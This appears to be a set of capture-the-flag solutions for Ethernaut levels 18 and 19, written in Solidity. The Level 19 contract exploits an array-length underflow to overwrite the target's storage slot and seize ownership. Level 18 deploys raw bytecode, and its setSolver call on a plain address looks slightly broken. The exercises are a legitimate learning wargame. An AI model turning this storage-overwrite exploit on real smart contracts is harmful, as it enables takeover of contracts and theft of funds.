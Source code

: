 - Ethernaut 18

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract MagicNumSolver {
    constructor(address target) {
        bytes memory bytecode = hex"69602a60005260206000f3600052600a6016f3";
        address addr;

        assembly {
            addr := create(0, add(bytecode, 0x20), 0x13)
        }

        require(addr != address(0));
        target.setSolver(addr);
    }
}

contract MagicNum {
    address public solver;

    constructor() {}

    function setSolver(address _solver) public {
        solver = _solver;
    }

    /*
    ____________/\\\_______/\\\\\\\\\_____        
     __________/\\\\\_____/\\\///////\\\___       
      ________/\\\/\\\____\///______\//\\\__      
       ______/\\\/\/\\\______________/\\\/___     
        ____/\\\/__\/\\\___________/\\\//_____    
         __/\\\\\\\\\\\\\\\\_____/\\\//________   
          _\///////////\\\//____/\\\/___________  
           ___________\/\\\_____/\\\\\\\\\\\\\\\_ 
            ___________\///_____\///////////////__
    */
}
```

like https://solidity-by-example.org/app/simple-bytecode-contract/

- Ethernaut 19


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;


import "https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v2.5.1/contracts/ownership/Ownable.sol";

contract Hack {
    constructor(AlienCodex victim) public {
        victim.makeContact();
        victim.retract();
        uint256 keccak_1 = uint256(keccak256(abi.encode(1)));
        // have to do -1 +1
        uint256 i = 2**256 - 1 - keccak_1 + 1; 
        victim.revise(i, bytes32(uint256(msg.sender)));
    }
}
```